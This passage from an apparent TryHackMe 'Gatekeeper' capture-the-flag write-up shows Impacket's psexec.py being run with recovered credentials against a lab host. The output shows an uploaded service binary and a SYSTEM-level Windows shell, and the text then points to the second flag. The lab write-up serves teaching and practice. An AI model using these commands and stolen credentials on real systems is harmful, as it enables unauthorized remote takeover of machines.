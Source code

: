 ```bash
┌──(DrunkenHacker㉿kali)-[~/MyCourses/TryHackMe/gatekeeper/firefox_creds]
└─$ python3 /usr/share/doc/python3-impacket/examples/psexec.py gatekeeper/mayor:8CL7O1N78MdrCIsV@10.10.122.209 cmd.exe
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.122.209.....
[*] Found writable share ADMIN$
[*] Uploading file afsxALnp.exe
[*] Opening SVCManager on 10.10.122.209.....
[*] Creating service PwkB on 10.10.122.209.....
[*] Starting service PwkB.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

We got the system shell. Now we can look for the second flag. Just like the first flag, the second flag is in the `mayor` user's desktop.